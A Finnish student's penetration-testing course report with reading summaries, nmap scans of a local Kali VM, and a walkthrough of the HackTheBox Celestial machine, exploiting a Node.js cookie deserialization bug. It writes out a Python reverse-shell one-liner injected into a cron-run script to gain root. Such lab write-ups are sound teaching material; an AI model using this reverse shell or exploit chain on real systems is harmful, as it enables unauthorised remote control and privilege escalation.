# h1 Kybertappoketju

## x) Lue/katso/kuuntele ja tiivistä.

1. Kuuntelin Herrasmieshakkereiden podcastin 0x0c, jossa heidän vieraana kävi avoimien lähteiden tiedustelun erikoismies Veli-Pekka Kivimäki. Nokian ja Microsoftin koodauksesta puolustusvoimille siirtynyt Kivimäki puhuu muun muassa kybervakoilusta, sosiaalisen median roolista avoimien lähteiden tiedustelussa sekä MH17-lentoturman tutkinnassa.

2. Lockheed Martinin asiakirjassa käydään läpi kybertappoketjun vaiheet sekä tuodaan ilmi perinteisten torjuntakeinojen heikkous APT-hyökkäyksissä. Yhtenä pääpointtina on *intelligence-driven computer network defence -malli*, jossa oppitaan ja kehitytään hyökkäysyritysten perusteella.

3. The Art of Hacking -videosarjassa puhutaan passiivisen ja aktiivisen tiedustelun eroista, niihin liittyvää termistöä sekä erilaisten porttiskannaustyökalujen eroja. Demossa näytetään muun muassa nmapin käyttöä, selitetään parametreja ja skannaustuloksia.

4. KKO:2003:36. Tapauksessa käsitellään porttiskannauksen roolia tietomurron yrityksessä. Korkein oikeus katsoi ratkaisussaan, että 17-vuotias henkilö oli syyllinen ja korvausvelvollinen, vaikka tietojärjestelmään murtautuminen olikin jäänyt pelkäksi yritykseksi.

## a) Asenna Kali virtuaalikoneeseen. (Jos asennuksessa ei ole mitään ongelmia tai olet asentanut jo aiemmin, tarkkaa raporttia tästä alakohdasta ei tarvita. Kerro silloin kuitenkin, mikä versio ja millä asennustavalla. Jos on ongelmia, niin tarkka ja toistettava raportti).

1. Kali on jo asennettu valmiiksi. Versio 6.18.9:n pohjalta löytyy Oraclen VirtualBox, joka on onnistunut tehtävässään ihan hyvin.





## b) Irrota Kali-virtuaalikone verkosta. Todista testein, että kone ei saa yhteyttä Internetiin.

1. Testataan yhteys pingillä, `-c 1` heittää vaan yhden kiven.



2. Ylhäällä on. Kalin voi irrottaa verkosta muutamalla tapaa, mutta pysytään komentorivissä.

3. Jatkotesti osoittaa, että kivi ei lennäkään.



4. Jos haluaa palauttaa yhteyden, niin samaan komentoon tulee `down` sijaan `up`.



## c) Porttiskannaa 1000 tavallisinta tcp-porttia omasta koneestasi. Analysoi ja selitä tulokset.

1. Laitetaan ihan yksinkertainen skannaus menemään komennolla `sudo nmap localhost`.



| Osa | Selitys |
| :-- | :------ |
| sudo | superuser do, eli aja pääkäyttäjänä |
| nmap | itse työkalu |
| localhost | lokaali, eli oma laite |

```bash
Starting Nmap 7.98 ( https://nmap.org ) at XXXX-XX-XX XX:XX +0200           # Nmapin versio 7.98, joka aloitettiin aikaan X.
Nmap scan report for localhost (127.0.0.1)                                  # Skannauksen kohteena localhost
Host is up (0.0000030s latency).                                            # Pyyntöviive
Other addresses for localhost (not scanned): ::1                            # Näyttää, että löytyy myös skannaamaton IPv6
All 1000 scanned ports on localhost (127.0.0.1) are in ignored states.
Not shown: 1000 closed tcp ports (reset)                                    # Kaikki 1000 skannattua TCP-porttia on kiinni.

Nmap done: 1 IP address (1 host up) scanned in 0.07 seconds                 # Koko skannaus kesti 0,07 sekuntia.
```

## d) Asenna kaksi vapaavalintaista demonia ja skannaa uudelleen. Analysoi ja selitä erot.

1. Otetaan esimerkkeihin mukaan Apache sekä OpenSSH.

2. `sudo systemctl status` näyttää molempien osalla, että ne ovat pois päältä. Tämä käy järkeen, sillä niitä ei näkynyt aikaisemmassa skannissa. 



3. Käynnistetään molemmat demonit ja ajetaan uusi skanni.



4. Nyt siellä näkyy 2 uutta tulosta. Mitäs ne oikein ovat?

```bash
PORT   STATE SERVICE
22/tcp open  ssh        # TCP-portti 22 on auki, siellä OpenSSH kuuntelee SSH-palvelua
80/tcp open  http       # TCP-portti 80 on auki, siellä Apache kuuntelee HTTP-palvelua
```

## e) Ratkaise vapaavalintainen kone HackTheBoxista. Omalle tasolle sopiva, useimmille varmaan Starting Pointista. Valitse kone, jota et ole ratkaissut vielä.

1. Jos olisi enemmän aikaa, niin tuolta olisi voinut valita jonkun vaikeammankin, mutta kyllä mediumit osaa myös yllättää.

2. Kohteeksi valikoitui tällä kertaa Celestial. Spawnataan kone ja yhdistetään kiinni.



3. Ensimmäinen tehtävä onkin aika standardi, eli pitää käydä skannailemassa kohdetta.



4. Skannauksen tuloksista näkyy, että avoimia TCP-portteja on 1 kpl.



```bash
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework                        # Oikea vastaus on siis 1.
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

5. Seuraavaksi pitää selvittää millä NodeJs frameworkilla tuo nettisivu on luotu. Vastaus näyttäisi olevan `Express`, sillä se näkyy aikaisemmassa skannissa mukana.



6. Sivun curlaus näyttää jännältä. Sisältö on kuulema `404`, mutta siellä on kaikkea muutakin.



7. Seuraavaksi, mikä on sivuilla istuvan cookien nimi? Vastaus tuohon löytyy myös aikaisemmasta curlista: `profile`.



```bash
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3
```

8. Keksi on base64-enkoodattu. Seuraavaksi pyydetään purkamaan ja selvittämään datan formaatti.



9. Kääntö onnistuu suoraan komentorivissä. Tuloksena onkin perinteinen `JSON`.



10. Nyt pitää selvittää, että kenen nimissä nettisivu oikein pyörii.



11. Tätä varten tarvitaan reverse shelli koneeseen. OpSecX:illä on mainio [artikkeli](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) juuri tästä aiheesta. Tuon ohjeita seuraamalla voidaan korkata haasteen kone.

12. Käytetään artikkelissakin esitettyä, ajinabrahamin githubista löytyvää valmista skriptiä.



13. Seuraava steppi vaatii nodejs:än, joten paketit päivittymään. Luodaan `exploit.js` artikkelin ohjeiden mukaan ja lisätään sinne oma payloadi. Sitten ajetaan.



14. Käännetään tuo sellaiseen muotoon, että voidaan nakkaa se suoraan tuohon `profile` cookieen.

15. Komennolla `echo 'payload_tähän' | base64` saadaan valmis setti, joka voidaan asettaa curliin mukaan.



16. Ei onnistunutkaa, mutta Burp Suitella se on ihan varma juttu. Napataan tuo sama ensimmäinen `GET` ja lisätään `Repeateriin` tuo profile-keksin arvo.



17. Ja sieltä, yhteys muodostettu ja `whoami` antaakin meille vastauksen.



18. Tässä tulikin vähän keulittua, kun kävin jo kurkkaamassa `user.txt` sisältöä ja löysin viimeisen User Flagin.



19. Haaste jatkuu Root Flagien muodossa ja ensimmäisenä halutaan croniskirptin tietoja.



20. Muutetaas tuo näkymä vähän fiksumpaan muotoon.



21. Näyttää siltä, että etsimämme scripti löytyy paikasta `/home/sun/Documents/script.py`. Aluksi oli vähän kummastelua, kun vastaus haluttaisiin muka numerona..





22. Hyviä uutisia, sillä meillä näyttäisi olevan oikeudet muokata tuota scriptiä.



23. Käydään luomassa [revshellillä](https://www.revshells.com/) shorttipythoni, jolla päästään käsiksi tuohon croniin. Pistetään kuuntelu porttiin 5555.

```bash
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.10.15.210",5555));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' > /home/sun/Documents/script.py
```


24. Sieltä napsahti. Kauheasti ei tarvitsekaan navigoida, että viimeinen lippu löytyi. Hetki pidi vaan odotella, koska järjestelmä kävi aina 5 minuutin välein ajamassa settiä.



## Lähteet
- Tero Karvinen 2026. Tunkeutumistestaus. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/. Luettu: 25.3.2026.
- Herrasmieshakkerit 7.11.2020. Avoimien lähteiden tiedustelun erikoismies, vieraava Veli-Pekka Kivimäki | 0x0c. Kuunneltavissa: https://herrasmieshakkerit.fi/. Kuunneltu: 25.3.2026.
- Hutchins, E. Cloppert, M. Amin, R. 2011. Intelligence-Driven Computer Network Defense Informed by Analysis of Adversary Campaigns and Intrusion Kill Chains, s. 1, 4-5. Lockeed Martin Corporation. Luettavissa: https://lockheedmartin.com/content/dam/lockheed-martin/rms/documents/cyber/LM-White-Paper-Intel-Driven-Defense.pdf. Luettu: 25.3.2026.
- Santos, O. Taylor, R. Stenrstein, J. McCoy, C. 2018. The Art of Hacking (Video Collection) Lesson 4: Active Reconnaissance. Katsottavissa: https://learning.oreilly.com/videos/the-art-of/9780135767849/9780135767849-SPTT_04_00. Katsottu: 26.3.2026.
- KKO 2003:36.
- HackTheBox. Celestial. https://app.hackthebox.com/machines/Celestial
- OpSecX. Exploiting Node.js deserialization bug for Remote Code Execution. 8.2.2017. Luettavissa: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/. Luettu: 26.3.2026.
- ajinabraham. Node.Js-Security-Course. GitHub. https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py
- Revshells. https://www.revshells.com/
